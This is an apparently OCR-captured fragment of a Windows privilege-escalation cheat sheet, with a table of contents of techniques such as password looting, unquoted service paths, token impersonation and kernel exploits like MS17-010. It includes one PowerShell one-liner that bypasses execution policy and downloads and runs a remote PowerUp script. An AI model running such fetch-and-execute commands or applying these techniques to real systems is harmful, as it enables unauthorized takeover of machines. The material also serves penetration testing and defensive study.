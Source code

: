 # other notes

Skip to content



	• Tools

	• Windows Version and Configuration

	• User Enumeration

	• Network Enumeration

	• EoP - Looting for passwords

	• EoP - Processes Enumeration and Tasks

	• EoP - Incorrect permissions in services

	• EoP - Windows Subsystem for Linux \(WSL\)

	• EoP - Unquoted Service Paths

	• EoP - Kernel Exploitation

	• EoP - AlwaysInstallElevated

	• EoP - Insecure GUI apps

	• EoP - Runas

	• EoP - From local administrator to NT SYSTEM

	• EoP - Living Off The Land Binaries and Scripts

	• EoP - Impersonation Privileges

		○ RottenPotato \(Token Impersonation\)

		○ Juicy Potato \(abusing the golden privileges\)

	• EoP - Common Vulnerabilities and Exposures

		○ MS08-067 \(NetAPI\)

		○ MS10-015 \(KiTrap0D\)

		○ MS11-080 \(adf.sys\)

		○ MS16-032

		○ MS17-010 \(Eternal Blue\)

	• References

Tools

	• PowerSploit's PowerUp
powershell -Version 2 -nop -exec bypass IEX \(New-Object Net.WebClient\).DownloadString\('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'\); Invoke-AllChecks

	• Watson - Watson is a \(.NET 2.0 compliant\) C\# implementation of Sherlock
